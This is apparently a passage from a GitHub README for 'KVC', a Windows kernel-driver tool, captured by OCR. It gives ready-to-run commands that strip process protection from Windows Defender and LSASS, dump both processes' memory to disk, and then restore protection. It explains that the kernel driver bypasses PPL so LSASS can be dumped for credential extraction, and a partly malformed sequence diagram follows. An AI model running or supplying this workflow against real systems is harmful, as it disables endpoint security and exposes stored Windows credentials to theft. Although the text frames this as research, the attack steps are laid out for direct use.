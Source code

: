     Deletes all saved session states from the registry *except* for the current boot session .

**Example Workflow:**

```powershell
# See which processes are protected
kvc.exe list

# Unprotect Windows Defender and LSASS for analysis
kvc.exe unprotect Antimalware
kvc.exe unprotect WinTcb

# Perform analysis (e.g., memory dump, instrumentation)
kvc.exe dump MsMpEng.exe C:\dumps
kvc.exe dump lsass.exe C:\dumps
# ... other research actions ...

# Restore original protection using saved session state
kvc.exe restore Antimalware
kvc.exe restore WinTcb
# OR restore everything modified in this session
# kvc.exe restore all

# Verify protection is back
kvc.exe list
```

-----

## 7\. Advanced Memory Dumping

Acquiring memory dumps of protected processes like `lsass.exe` (Local Security Authority Subsystem Service) is critical for credential extraction and forensic analysis but is blocked by PP/PPL on modern Windows. KVC bypasses these restrictions.

### The Challenge with Protected Processes

Standard tools like Task Manager, `procdump.exe`, or Process Explorer operate in user mode and request memory access via standard Windows APIs (e.g., `OpenProcess`, `ReadProcessMemory`). The Kernel Security Reference Monitor denies these requests when targeting a process with a higher protection level (PP/PPL) than the requesting tool (even if running as Administrator).

### KVC's Kernel-Mode Approach

KVC circumvents this by using its kernel driver and, optionally, self-protection elevation:

```mermaid
sequenceDiagram
    participant User
    participant KVC_EXE as kvc.exe
    participant KVC_SYS as kvc.sys (Kernel)
    participant Target_PPL as Target Process (e.g., LSASS)
    participant DbgHelp_DLL as DbgHelp.dll

    User->>KVC_EXE: kvc dump lsass C:\dumps
    KVC_EXE->>KVC_EXE: Load Driver (kvc.sys)
    KVC_EXE->>KVC_SYS: Get LSASS EPROCESS Address & Protection
    KVC_SYS-->>KVC_EXE: Return Addr, Protection (e.g., PPL-WinTcb)
    Note over KVC_EXE: Determines LSASS is PPL-WinTcb 

    %% Optional Self-Protection (Auxiliary)
    % KVC_EXE->>KVC_SYS: Set KVC Process Protection to PPL-WinTcb 
    % Note over KVC_EXE: Self-protection helps, but direct kernel access is key.

    KVC_EXE->>OS: OpenProcess(LSASS_PID, PROCESS_VM_READ | ...)
    Note over OS: Access potentially granted due to matching protection OR kernel bypass
```